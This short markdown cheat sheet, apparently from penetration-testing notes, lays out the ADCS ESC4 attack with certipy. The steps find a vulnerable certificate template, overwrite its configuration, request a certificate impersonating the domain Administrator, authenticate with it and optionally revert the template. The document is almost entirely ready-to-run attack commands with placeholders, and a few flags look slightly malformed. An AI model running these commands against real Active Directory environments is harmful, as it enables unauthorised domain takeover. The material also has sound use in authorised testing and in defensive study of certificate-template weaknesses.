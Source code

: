 # ADCS ESC4

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Write over template
```
certipy template \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -template '<ESC4_TEMPLATE>' \
    -write-default-configuration
```
## 3. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## 4. Log on with the minted cert
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```

## 5. (Optional) Reverting Template
```
certipy template \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -template '<ESC4_TEMPLATE>' \
    -write--configuration <ESC4.json> -no-save
```
